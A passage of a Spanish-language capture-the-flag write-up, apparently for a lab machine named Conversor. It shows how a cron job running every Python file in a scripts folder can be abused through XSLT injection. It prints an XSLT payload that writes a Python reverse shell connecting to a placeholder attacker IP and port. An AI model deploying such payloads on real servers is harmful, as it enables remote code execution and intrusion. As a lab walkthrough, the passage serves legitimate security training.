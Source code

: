 Vemos que la estructura contiene varios directorios interesantes entre ellos `scripts` y vemos que la estructura es de un servidor de `python3` `Flask`, inspeccionando el codigo de `app.py` veremos que realmente hay una vulnerabilidad de la que comente antes.

Tambien veremos una ruta de `DB` que es `/var/www/conversor.htb/instance/users.db` por lo que esto nos interesara mas adelante seguramente.

Pero el archivo mas interesante que vemos es `install.md`:

```md
cat install.md     
To deploy Conversor, we can extract the compressed file:

"""
tar -xvf source_code.tar.gz
"""

We install flask:

"""
pip3 install flask
"""

We can run the app.py file:

"""
python3 app.py
"""

You can also run it with Apache using the app.wsgi file.

If you want to run Python scripts (for example, our server deletes all files older than 60 minutes to avoid system overload), you can add the following line to your /etc/crontab.

"""
* * * * * www-data for f in /var/www/conversor.htb/scripts/*.py; do python3 "$f"; done
"""
```

Vemos que en la carpeta `scripts` hay un `crontab` que ejecuta cualquier archivo de `python` con `.py` que este dentro, por lo que podremos depositar atraves de la vulnerabilidad `XLST Injection` un archivo de `python3` para que se ejecute una `shell`.

> test.xsl

```xsl
<?xml version="1.0" encoding="UTF-8"?>
<xsl:stylesheet
    xmlns:xsl="http://www.w3.org/1999/XSL/Transform"
    xmlns:ptswarm="http://exslt.org/common"
    extension-element-prefixes="ptswarm"
    version="1.0">

<xsl:template match="/">
  <ptswarm:document href="/var/www/conversor.htb/scripts/test.py" method="text">
#!/usr/bin/env python3
import os
import socket
import subprocess

# Reverse shell simple
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect(("<IP_ATTACKER>", <PORT>))
os.dup2(s.fileno(), 0)
os.dup2(s.fileno(), 1)
os.dup2(s.fileno(), 2)
subprocess.call(["/bin/sh", "-i"])
```